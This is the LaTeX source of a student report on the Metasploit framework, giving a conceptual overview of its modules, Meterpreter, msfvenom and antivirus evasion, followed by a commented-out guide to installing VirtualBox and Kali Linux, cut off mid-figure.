\documentclass[a4paper, 12pt, titlepage]{report}
\usepackage{minted}
\usepackage[dvipsnames]{xcolor}
\colorlet{LightBlue}{RoyalBlue!20}
\usepackage{graphicx}
\usepackage{fullpage}
\usepackage{float}
\usepackage{amsmath}
\usepackage{booktabs}
\usepackage{multicol}
\usepackage{graphicx}
\usepackage{fullpage}
\usepackage{float}
\usepackage{hyperref}
\usepackage{csquotes}
\usepackage[backend=biber]{biblatex}
\addbibresource{bibfile.bib}
\setlength{\tabcolsep}{18pt}
\renewcommand{\arraystretch}{1.1}
\renewcommand{\chaptername}{Section}
\hypersetup{
    colorlinks=true,
    linkcolor=RoyalBlue,
    filecolor=RoyalBlue,
    urlcolor=RoyalBlue,
    citecolor=RoyalBlue,
}
%\usepackage{fancyvrb}
\begin{document}
\linespread{1.5}
\author{Affaan Muhammad - 33016763\\Joshua Esterhuizen - 30285976}
\title{ITRI625 - Computer Security II\\Metasploit Project Documentation}
\date{Due: October, 19th 2021}
\maketitle
\tableofcontents{}
\chapter{Metasploit}
\section{Introduction}
The growth and widespread adoption of technology and the internet can be compared to a double-edged sword. While the globe is more interconnected than ever, this almost unanimous adoption of technology has brought with it some issues and problems of its’ own. 
\\\\
One such major issue is the increased security risk people undertake by participating in the use of technology and the internet. Before the most risk you would be in was if you had dropped important documents while nowadays an attacker could access this information through some nefarious mean without even alerting you or the targeted institution. The simplest was to guard against these on a large scale without sacrificing the comfort of using technology or the internet is to develop and put in place security measures to block these kinds of attacks. 
\\\\
The Metasploit framework was developed to aid in this process by providing a structured and contained way to attempt penetration on a system to test the security measures and their effectiveness.  This is helpful for both countering security in the wrong hands as well as aiding in improving the security of organisations. 
\section{What is Metasploit?}
Before we can describe the ways that Metasploit can help organisations and how it counters security in the wrong hands, we need to understand what Metasploit is and how it functions. Metasploit and its’ framework were originally designed and developed as a tool for security experts in various fields such as network security, security administrators, product vendors and any other security experts to use within their own field according to the specific needs of each.\cite{testIDS}
\\\\
Other than that, Metasploit is describes as a tool that collectively combines exploits into one central hub for security experts and researchers or alternatively as a project that contains information pertaining to security vulnerabilities and aids in the penetration testing of a system as well as the development of an intrusion detection system.\cite{goodDef, testIDS}
\\\\
Penetration testing is a method of identifying certain vulnerabilities within a system be it a computer, network or website. As a process, it includes gathering data on the system to determine where vulnerabilities may lie and then attempt to exploit them to test the measures put in place.\cite{goodDef}
\\\\
Metasploit was originally equipped with many modules that can be used. The four main modules include:\cite{goodDef}
\begin{itemize}
\item Exploit module which allows for a means to attack a compromised system, 
\item Payload which allows for a means for attackers to gather data by interacting with the target, 
\item Auxiliary module, which is equipped to test, scan and recon the target and \item Encoders module which is used for evading firewall and anti-virus tools. 
\end{itemize}
It should also be noted that since Metasploit is an open source, meaning the code to how it was built is publicly available for download, this allows users and security experts to develop their own modules if the need for then is required. \cite{goodDef}
\\\\
There are also two other notable items that are coupled with Metasploit – those being Meterpreter and Msf-Venom. Meterpreter is a powerful payload that came to Metasploit some time after it was developed. It is an advanced dynamically integrated payload that is stored entirely within the memory of a system. \cite{testIDS}When a vulnerable system is found and consequentially infected with this payload via any exploit, it establishes a connection between the infected and attacker systems through a client side, the infected system, command which bypasses most firewall restrictions.\cite{testIDS}
\\\\
Meterpreter is also a powerful payload for another reason - it is very elusive and often goes by undetected by most security experts.\cite{testIDS}
\\\\
Meterpreter also comes with a command line style interface that has various commands such as getting system information, interacting with peripherals on the infected system and making use of the infected systems command line or power shell. 
\\\\
Msf-Venom on the other hand is not a payload but a Metasploit standalone payload generator. It is the updated replacement of msfpayload and msfencode.\cite{goodDef}
\\\\
It allows a user to generate any type of shellcode or payload that will affect a platform of their choice - such as on Linux, Windows or Android to name a few.\cite{goodDef}
\section{How it counters security in the wrong hands}
"Security in the wrong hands" is likely referring to people or organisations that are making use of security measures to halt, attack or generally inconvenience others. As such, Metasploit and its’ accompanying modules are a tool that will counter these types of attacks. 
\\\\
The clearest way that Metasploit can be used in this capacity is that it directly provides the tools to infiltrate and attack the system to remove the security measures in place and as such counters the given attack. Additionally, it can also be used to study the system itself to find any vulnerabilities and then generate payloads and exploits that match the systems security measures with Msf-Venom. 
\\\\
Metasploit allows for this with several keywords within the framework - namely those being:
\begin{itemize}
\item Search
\item Use
\item Exploit and Run
\end{itemize}
The search keyword allows for a Metasploit user to comb through the massive library of modules Metasploit provides and quickly and easily find the appropriate payload they require.\cite{goodDef}
\\\\
The use keyword allows for a Metasploit user to implement the particular module they want to and begin the exploitation process.\cite{goodDef}
\\\\
The exploit and run keywords allow a Metasploit user to activate their choice of payload and module and begin the actual infiltration of a vulnerably system. There are two keywords for this particular action.\cite{goodDef}
\\\\
However, Metasploit can also be used by security experts within an organisation to test their internal security systems and measures that they have in place.
\section{How it improves the cyber security of an organisation}
Security experts and system administrators within organisations have begun taking the approach of viewing their control measures as an ever-evolving system that needs constant attention as it is a matter of when the measures will fail and not if they will fail.\cite{usesEvade} 
\\\\
These experts and administrators can make use of Metasploit to test their systems and find any vulnerabilities in a controlled environment before they are exploited by any malicious attacker. This is a needed aspect of the security department of any organisation that wished to keep their data and information safe as one of the biggest issues to solve with exploits is how they evade detection. This is typically done by avoiding detection of an anti-virus or anti-malware program through the use of \cite{usesEvade, testIDS}:
\begin{itemize}
    \item Manual Binary Editing
    \item Polymorphic code
\end{itemize}
Most anti-virus programs have been ineffective at detecting the payloads distributed by Metasploit and as such making use of these exact payloads to further secure a system is ideal.\cite{testIDS}
\\\\
However, before being able to update a security system to detect these payloads, the means of evasion must be understood. Manual binary editing is the process by which the malware in question changes a particular signature to avoid detection by signature-based security programs.\cite{usesEvade}
\\\\\
Due to this, the security experts could modify the means by which these applications check for signatures – as one suggestion is to sub-divide the files being scanned and checking if there is a partial match to a known malware or virus signature.\cite{usesEvade} 
\\\\
The above method, however, may not work on the second means of evasion -polymorphic code. A virus or piece of malware with this specific trait changes each time it is run and therefore has a different signature each time - avoiding signature-based detection entirely. \cite{usesEvade}
\\\\
Therefore using payloads from Metasploit with this characteristic allows for system administrators and security experts to efficiently test the intrusion detection systems and any heuristic-based anti-malware or anti-virus programs.\cite{usesEvade}
\\\\
Another use is that Metasploit can also be used to test the security measures of websites and web applications.\cite{testweb} 
\\\\
From this section, it is clear that Metasploit can be used to strengthen the security measures put in place by an organisation by allowing the security experts and system administrators to firstly identify what vulnerabilities the system has, then exploit it to understand how the exploit uses the vulnerability and then find a means to patch this vulnerability.
\section{Conclusion}
Metasploit is shown to be a powerful tool for security experts as it allows for a controlled means to study system vulnerabilities and exploits while aiding in the process of strengthening the systems themselves as well as the programs used to safeguard the systems.
\chapter{Installation and Setup}
For further details have a look at our "DIY" blog page for the setup that was done in this project. It is located at the following link:\\
\url{https://ITRI625.github.io/post3.html}\\\\
The following tools were utilised:
\begin{itemize}
    \item Oracle VirtualBox
    \item Vulnerable Windows 7 .iso image
    \item Vulnerable Android x86\_64 .iso image
    \item Kali Linux .iso image
\end{itemize}
% \section{Project files}
% The project files can be found on the following GitHub link:\\
% \url{https://github.com/AM-ops/MetasploitProject/}
% \\\\This was our main code repository. We both have been updating the code as we went along and added details and bug fixes to the project.\\\\
% To copy the code to your own machine, follow the following steps:
% \begin{enumerate}
% \item Make sure Git is installed. If not it can be downloaded from here:\\
% \url{https://git-scm.com/}
% \item Create an empty directory where the code can be copied to
% \item Run the following command:
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% ]
% {Shell}
% git clone https://github.com/AM-ops/MetasploitProject.git
% \end{minted}
% \end{enumerate}
% \section{Virtual Environments}
% \label{sec:sec2}
% There are multiple advantages of using virtual environments when testing for vulnerabilities and exploits in computer security. The primary reason being we create a layer of separation and abstraction between our host machine and our virtual environments. This 'sand-boxing' allows for analysis of threats in a contained environment.
% \subsection{VirtualBox}
% We made use of Oracle's VirtualBox software for the virtualisation. This can be downloaded from the following link: \url{https://www.virtualbox.org/wiki/Downloads}\\
% Below is a screenshot of the site. We also chose the \texttt{Windows hosts} option to download. Other hosts can also be utilised such as Linux hosts, or OS X hosts.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/vbmain.PNG}
%     \caption{Oracle's VirtualBox Download Page}
% \end{figure}
% Once the file has been downloaded, open it. Thereafter follow the default prompts of the installation. Below are some figures illustrating this.
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/vb1.PNG}
%     \caption{Screen 1}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/vb2.PNG}
%     \caption{Screen 2}
% \end{figure}
% \end{multicols}
% Click on \textbf{Next} for both above screens
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/vb3.PNG}
%     \caption{Screen 3}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/vb4.PNG}
%     \caption{Screen 4}
% \end{figure}
% \end{multicols}
% Click on \textbf{Next} for both of the above screens
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/vb5.PNG}
%     \caption{Screen 5}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/vb6.PNG}
%     \caption{Screen 6}
% \end{figure}
% \end{multicols}
% Click on \textbf{Next} and then \textbf{Finish}
% \section{Kali Linux}
% The next step is to acquire an Operating System for carrying out our Penetration Testing. For this purpose we utilised \texttt{Kali Linux}. The main site for this OS is: \url{https://www.kali.org/}\\\\
% According to them they quote the following:
% \begin{displayquote}
% "\textbf{The Most Advanced Penetration Testing Distribution}\\
% \textit{Kali Linux is an open-source, Debian-based Linux distribution geared towards various information security tasks, such as Penetration Testing, Security Research, Computer Forensics and Reverse Engineering.}"
% \end{displayquote}
% \pagebreak
% The main site looks as follows
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/kali.PNG}
%     \caption{Kali Linux's Homepage}
% \end{figure}
% Click on the \texttt{Download} button to see the different options available. Below the options are shown.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/kalidown.PNG}
%     \caption{Kali Linux's different download options}
% \end{figure}
% The option we chose is the \texttt{Virtual Machines} one. Thereafter you are presented with the two options available.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/kalivb.PNG}
%     \caption{The 2 options for Virtual Machines}
% \end{figure}
% Select the \texttt{VirtualBox} option and click on the direct download link.\\\\
% After the download is completed it is time to set up Kali Linux inside VirtualBox. To achieve this open up the file and thereafter change the following settings.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/vbkali1.PNG}
%     \caption{The main screen once the file is opened}
% \end{figure}
% Click on \textbf{Import} thereafter click on \textbf{Agree} on the Software Licence Agreement screen. The Kali Linux virtual machine will begin installing. Wait for it to be completed. Depending on the hardware available, it will be done in a few minutes.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/vbkali2.PNG}
%     \caption{Software Licence Agreement screen}
% \end{figure}
% Once the installation is completed Oracle's VirtualBox will open to the following main screen. The newly installed Kali Linux is shown on the left of the main screen.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/vbkalimain.PNG}
%     \caption{VirtualBox's main screen}
% \end{figure}
% Before starting up the Kali Linux virtual machine, a few settings have to be changed. Click on the \textbf{Settings} icon which is shown by a yellow gear icon. Navigate to \textbf{Systems} setting, and thereafter assign the recommended amount of \texttt{Base memory} under the \texttt{Motherboard} tab.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/settings1.PNG}
%     \caption{Systems settings: Motherboard tab}
% \end{figure}
% Under the \texttt{Processor} tab assign the recommended amount of \texttt{Processor(s)} as well as check the \texttt{Enable Nested VT-x/AMD-V} option.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/settings2.PNG}
%     \caption{Systems settings: Processor tab}
% \end{figure}
% If any errors are shown in the Settings for USB, then under the \texttt{USB} settings make sure that the \texttt{USB 1.1 (OHCI) Controller} option is only selected.
% \begin{figure}[H]
%     \centering
